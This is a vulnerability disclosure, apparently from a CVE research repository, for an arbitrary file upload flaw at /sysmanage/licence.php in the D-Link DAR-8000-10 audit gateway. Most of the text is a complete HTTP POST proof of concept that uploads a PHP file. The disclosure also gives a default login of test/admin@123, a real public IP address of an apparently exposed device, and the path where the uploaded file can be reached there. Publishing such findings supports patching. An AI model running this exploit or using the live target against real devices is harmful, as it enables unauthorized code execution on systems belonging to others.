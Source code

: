 The full version of the D-LINK DAR-8000-10 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-8000-10  DAR V31R02B1413C

Vulnerability Path ：/sysmanage/licence.php

Ip：https://59.60.19.174:8443/

Log in to the system using the default password：test/admin@123
<img width="732" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/cfc0e895-5b3f-4cbc-8f89-d2f1bebd075b">

POC：
```
POST /sysmanage/licence.php? HTTP/1.1
Host: 
Cookie: PHPSESSID=26a1775947167e57a44ae5a532938679
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 714
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="ck"

radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="file_upload"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hid_tftp_ip"


-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hid_ftp_ip"


-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

set
-----------------------------42328904123665875270630079328—

```
https://59.60.19.174:8443/home/upload/phpinfo.php
<img width="721" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/af095f43-55a5-4f4f-a5b2-9b6fb90a199b">

